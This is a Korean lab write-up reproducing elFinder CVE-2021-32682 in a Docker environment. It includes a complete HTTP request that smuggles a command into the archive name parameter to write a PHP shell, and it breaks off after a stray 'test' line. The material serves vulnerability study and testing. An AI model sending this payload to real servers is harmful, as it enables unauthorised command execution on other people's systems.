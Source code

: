 # elFinder ZIP 인수 삽입이 명령어 삽입으로 이어짐(CVE-2021-32682)

[한국어 버전(Korean version)]

elFinder는 jQuery UI를 사용하여 JavaScript로 작성된 웹용 오픈 소스 파일 관리자입니다.

elFinder 2.1.48 버전과 이전 버전에서 Arguments Injection이 발견되었습니다. 이 취약점을 통해 최소한의 구성이라도 elFinder PHP connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다. 이 문제는 2.1.59에서 패치되었습니다. 반드시 인증 없이 노출되게 하지 마세요.

참고 자료:

* https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities
* https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt
* https://xz.aliyun.com/t/10739

## 취약점 환경
elFinder 2.1.48를 시작할려면 다음 명령을 실행하십시오:<br>
<pre><code>docker compose up -d</code></pre>
서버가 시작된 후 <code>http://your-ip:8080</code>에서 elFinder의 메인 페이지를 볼 수 있습니다.

## 취약점 재현
먼저, 이 취약점 흐름을 위해 2개의 파일을 준비헤야됩니다.<br><br>
<code>1.txt</code>라는 일반 텍스트 파일을 만듭니다.:<br><br>
![1](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/1.png)

마우스 오른쪽 버튼 클릭 메뉴에서 이 파일을 ZIP 형식으로 보관하고 보관된 파일 이름을 <code>2.zip</code>로 수정합니다.:

![2](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/2.png)

<code>1.txt</code>와 <code>2.zip</code>가 여기 준비되었습니다.:

![3](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/3.png)

그 다음, 임의의 명령을 실행하기위해 아래의 요청을 보냅니다.
<pre><code>GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close

 
</code></pre>

이 요청에서는 3가지 중요한 매개변수를 볼 수 있습니다.

+ test
